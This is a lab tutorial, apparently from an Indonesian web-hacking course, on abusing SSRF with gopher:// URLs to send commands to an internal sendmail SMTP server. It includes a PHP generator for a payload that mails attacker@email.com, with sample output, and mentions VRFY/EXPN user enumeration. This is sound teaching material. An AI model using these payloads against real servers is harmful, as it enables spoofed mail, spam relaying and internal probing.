



# SSRF And SMTP

SSRF bisa dimanfaatkan untuk berinteraksi dengan SMTP, sehingga attacker bisa mengirim email melalui server SMTP dari website yang _vulnerable_ SSRF.



### Lab Setup

Email Server menggunakan `sendmail` dan di_deploy_ menggunakan `docker`.

```bash
git clone https://github.com/rhamaa/Web-Hacking-Lab.git
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab
```


\*\* Port HTTP sengaja diforward ke 8022 karena memang di Host Server port 80 nya sudah ada service yang berjalan.


Lab tersebut hanya menggunakan setingan _default_ sendmail, mungkin tidak akan bisa mengirim \(_Outgoing Mail_\) pesan ke provider-provider email tertentu seperti Gmail.


### SMTP \(Simple Mail Transfer Protocol\) 101

SMTP berfungsi untuk mengirim email dari SMTP server pengirim ke SMTP server penerima email, secara default port SMTP adalah 25, selain itu SMTP mempunyai port lain yaitu 587 MSA \(_message submission agent_\), bedanya dengan port 25 adalah port 587 membutuhkan Autentikasi SMTP. Port 587 ini lebih sering digunakan karena tergolong lebih aman dibandingkan port 25.

#### Beberapa Command SMTP

| **Command** | **Deskripsi** |
| :--- | :--- |
| `HELO <FQDN>` | Say Hello ke SMTP server agar saling mengenal |
| `MAIL FROM <Your_Email>` | Set Email pengirim |
| `RCPT TO <Receiver_Email>` | Set Email tujuan |
| `DATA` | Mulai menulis isi email, lalu akhiri dengan "." untuk mengirim |
| `VRFY <username>` | Melakukan verifikasi mailbox user di local host |
| `EXPN <username>` | \( sama seperti VRFY \) |
| `QUIT` | Keluar dari SMTP |




**Trivia :** _Command_ RCPT TO, VRFY, dan EXPN dapat digunakan untuk melakukan _Username Enumeration_ yang sangat berguna saat melakukan _pentesting_.


### SMTP Hates HTTP

Seperti yang dikatakan **Orange Tsai** dalam presentasinya bahwa "_SMTP Hates HTTP_" karena memang HTTP tidak bisa melakukan _smuggling_ ke SMTP.

Pada `sendmail` terdapat changelog yang mengatakan akan menolak apabila paketnya di awali dengan _GET_, _POST_, _CONNECT,_ atau _USER_

```text
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

Sangat mustahil untuk melakukan _smuggling_ HTTP ke SMTP, karena memang pasti akan ditolak, tetapi protokol Gopher dan HTTPS bisa melakukan _smuggling_ ke protokol SMTP sehingga bisa menjadi solusi terhadap permasalahan tersebut.


**HTTPS** tidak mendukung _multiline_ _request_ seperti gopher, oleh karena itu dibutuhkan celah _CRLF Injection_ apabila ingin melakukan _querying_ SMTP melalui HTTPS


### Querying SMTP Melalui Gopher

Syntax Gopher untuk Querying SMTP seperti dibawah ini.

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

_Script_ di bawah ini bisa digunakan untuk meng-automasi pembuatan _payload_.

```php
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <root@target.0xff.web.id>',
                'RCPT TO: <attacker@email.com>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );

        $payload = implode('%0A', $commands); // memisahkan tiap command dengan newline

        echo 'gopher://127.0.0.1:25/_' . $payload;
?>
```


Tanda \_ \(_**underscore**_\) setelah &lt;port&gt;:/ untuk mewakili _gophertype_, sehingga harus disertakan, karena apabila tidak disertakan karakter payload akan terpotong 1 karakter, misal payloadnya adalah _HelloWorld_, apabila tanda \_ tidak disertakan payloadnya akan menjadi _ElloWorld_.


#### Percobaan Serangan

```bash
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <root@target.0xff.web.id>%0ARCPT TO: <attacker@email.com>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

Masukan _payload_ yang sudah di-_generate_ ke web target.


Terdapat email dari server target masuk.



### Referensi

[http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/) [https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)                    [https://tools.ietf.org/html/rfc4266](https://tools.ietf.org/html/rfc4266) [https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs)

